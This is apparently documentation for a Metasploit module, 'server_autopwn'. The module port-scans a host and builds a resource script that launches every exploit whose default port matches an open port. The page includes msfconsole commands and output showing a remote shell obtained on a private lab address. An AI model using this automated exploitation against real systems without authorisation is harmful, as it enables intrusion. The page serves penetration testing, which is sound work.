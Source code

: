 The module server_autopwn will port scan a target, then cross references the open ports 
with the default ports used by metasploit modules from modules/exploits/ then builds 
a custom msfexec.rc resource file to be used against that host.

## Vulnerable Applications

Services running on their *default* ports that have metasploit modules in msf's
modules/exploits/ directory.

## Scanning

By default we scan TCP ports 1-10000, but this can be modified to suit the server in 
question.  This can be changed with the value of PORTS.
ex:
```
set PORTS 22-25,110-900
```
If you can't find any open ports, but know otherwise, play with the TIMEOUT, CONCURRENCY, DELAY, and JITTER options.

## Exploitation

Once open ports have been enumerated, we cross reference them with the default ports used by metasploit
modules, then write a resource script (msfexec.rc) that uses those exploits against the target.  We 
use every matching module recurisively under the dir modules/exploits/.

## Scenarios

First identify a server with at least one open port.

```
$ ./msfconsole
msf5 > use auxiliary/server/server_autopwn
msf5 auxiliary(server/server_autopwn) > set RHOSTS 192.168.1.235
msf5 auxiliary(server/server_autopwn) > set LHOST 192.168.1.207
msf5 auxiliary(server/server_autopwn) > exploit
msf5 auxiliary(server/server_autopwn) > resource msfexec.rc

```
Pray to the computer gods while the resource script is executed...
Wait for a shell.

```
resource (/home/marshall/Code/forks/metasploit-framework/msfexec.rc)> sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               192.168.1.207:42693 -> 192.168.1.235:6200 (192.168.1.235)

msf5 > 
```

## Thanks

Thanks to the creators (hdm, kris katterjohn) of auxiliary/scanners/portscan/tcp.rb
for the port scanning code!
